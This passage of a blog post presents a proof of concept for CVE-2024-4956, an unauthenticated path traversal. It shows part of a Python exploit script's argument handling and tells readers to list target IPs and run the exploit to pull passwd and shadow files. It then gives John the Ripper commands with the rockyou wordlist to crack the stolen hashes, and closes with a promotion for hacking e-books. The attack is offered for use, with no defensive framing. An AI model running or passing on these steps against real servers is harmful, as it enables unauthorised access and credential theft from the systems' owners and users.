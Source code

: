         if args.list:  
            ip_port_list = read_ip_port_list(args.list)  
            print(banner())  
            main(ip_port_list)  
        elif args.url:  
            ip_port_list = [args.url]  
            print(banner())  
            main(ip_port_list)  
        else:  
            print(banner())  
            parser.print_help()

Next chose your target and add it to list.txt file in this format:

  * <https://ip_address>

Run the Exploit:

    
    
    python3 CVE-2024-4956.py -l list.txt

The output is passwd and shadow files that found:

Now after you find both file passwd & shadow you can try crack the hash with
JohnTheRipper, after running the exploit you have 2 files, passwd & shadow, so
you can merge them into one file and try crack them (I used rockyou.txt but it
can be any password wordlist):

    
    
    unshadow passwd shadow > unshadowed.txt
    
    
    john --wordlist=/usr/share/wordlists/rockyou.txt unshadowed.txt

📎 If You like my content and you want some more, [View On My Shop bundle of
20+ E-Books for your OSCP!](https://buymeacoffee.com/verylazytech/e/258177)

📎 [Buy me a Coffee](https://buymeacoffee.com/verylazytech)

[Cve 2023 4966](/tag/cve-2023-4966?source=post_page-----f24b1a595e0e
---------------cve_2023_4966-----------------)

[Cybersecurity](/tag/cybersecurity?source=post_page-----f24b1a595e0e
---------------cybersecurity-----------------)

[Hacking](/tag/hacking?source=post_page-----f24b1a595e0e---------------
hacking-----------------)

[Bug Bounty](/tag/bug-bounty?source=post_page-----f24b1a595e0e---------------
bug_bounty-----------------)

[Vulnerability](/tag/vulnerability?source=post_page-----f24b1a595e0e
---------------vulnerability-----------------)

[](/m/signin?actionUrl=https%3A%2F%2Fmedium.com%2F_%2Fvote%2Fp%2Ff24b1a595e0e&operation=register&redirect=https%3A%2F%2Fmedium.com%2F%40verylazytech%2Fpoc-
cve-2024-4956-unauthenticated-path-
traversal-f24b1a595e0e&user=Very+Lazy+Tech&userId=defbb8c3cf98&source=-----f24b1a595e0e
---------------------clap_footer-----------)
